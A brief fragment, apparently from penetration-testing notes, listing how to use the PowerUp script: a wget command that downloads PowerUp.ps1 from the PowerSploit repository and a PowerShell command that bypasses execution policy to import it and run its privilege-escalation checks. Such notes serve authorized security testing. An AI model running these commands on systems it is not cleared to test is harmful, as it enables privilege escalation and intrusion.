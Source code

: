 
- PowerUP
  - `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
